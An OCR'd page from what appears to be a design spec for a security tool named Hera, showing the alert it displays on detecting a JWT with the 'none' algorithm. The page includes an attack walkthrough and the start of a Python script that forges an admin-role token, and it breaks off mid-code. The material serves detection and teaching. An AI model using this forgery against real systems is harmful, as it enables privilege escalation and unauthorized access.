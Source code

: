 **What Hera Should Display:**

```
┌─────────────────────────────────────────────────────────────────┐
│ 🚨 CRITICAL: JWT "none" Algorithm Detected                       │
├─────────────────────────────────────────────────────────────────┤
│                                                                   │
│ Token Header:                                                    │
│ {                                                                │
│   "alg": "none",                                                 │
│   "typ": "JWT"                                                   │
│ }                                                                │
│                                                                   │
│ Token Payload:                                                   │
│ {                                                                │
│   "user_id": 12345,                                              │
│   "email": "henry@example.com",                                  │
│   "role": "user",                                                │
│   "exp": 1729766400                                              │
│ }                                                                │
│                                                                   │
│ Vulnerability Explanation:                                       │
│ The "none" algorithm means the JWT has NO SIGNATURE. The         │
│ server is accepting tokens that aren't cryptographically         │
│ verified. This is catastrophic.                                  │
│                                                                   │
│ Attack Scenario:                                                 │
│ 1. Take any valid JWT from the application                       │
│ 2. Decode the payload and change "role": "user" to "admin"      │
│ 3. Remove the signature entirely                                 │
│ 4. Server accepts it because alg="none" means "don't verify"     │
│                                                                   │
│ How to Exploit:                                                  │
│                                                                   │
│ # Original token (abbreviated):                                  │
│ eyJhbGci...header...eyJ1c2Vy...payload...signature               │
│                                                                   │
│ # Modify payload to:                                             │
│ {                                                                │
│   "user_id": 12345,                                              │
│   "email": "henry@example.com",                                  │
│   "role": "admin",  ← CHANGED                                    │
│   "exp": 1729766400                                              │
│ }                                                                │
│                                                                   │
│ # Create new token:                                              │
│ eyJhbGci...none...eyJyb2xl...admin...                            │
│                   ↑ no signature needed                          │
│                                                                   │
│ Python script to create forged token:                            │
│                                                                   │
│ import base64                                                    │
│ import json                                                      │
│                                                                   │
│ header = {"alg": "none", "typ": "JWT"}                           │
│ payload = {                                                      │
│     "user_id": 12345,                                            │
│     "email": "henry@example.com",                                │
│     "role": "admin",                                             │
│     "exp": 1729766400                                            │
│ }                                                                │
│                                                                   │
│ def base64url_encode(data):                                      │
│     return base64.urlsafe_b64encode(                             │
```